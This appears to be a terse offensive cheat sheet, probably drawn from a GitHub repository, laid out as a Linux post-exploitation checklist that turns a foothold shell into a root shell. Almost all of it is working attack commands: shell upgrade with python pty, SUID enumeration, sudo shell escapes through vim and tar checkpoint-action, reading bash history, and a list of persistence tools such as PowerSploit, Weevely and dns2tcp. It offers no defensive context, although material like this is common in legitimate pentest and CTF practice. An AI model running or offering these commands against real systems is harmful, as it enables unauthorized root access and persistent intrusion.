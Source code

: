 
INPUT: Shell
PROCESS:
- Stablish Shell
- Privilege Escalation
- Maintain Access
OUPUT: 
- root Shell


## Stablish Shell   
[python]
```sh
python3 -c 'import pty;pty.spawn("/bin/bash");'; export TERM=xterm
```

## Privilege Escalation
[SUID] find / -perm /4000 2>/dev/null
    - [python] <python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'>
[sudo] <id; sudo -l; sudo -V>
- [vim] <sudo vim -c ':!/bin/sh'>
[WebServer]:
- [python3]: python3 module <python3 -m http.server>
[Bash]  
- [History] <cat .bash_history>
[vsftpd]
- !/bin/bash
[tar]    
    <sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh>
    <sudo install -m =xs $(which tar)
    ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh>

find / -type f -user root -perm -u=s 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

## Maintain Access
- PowerSploit
- Weewly
- dns2tcp
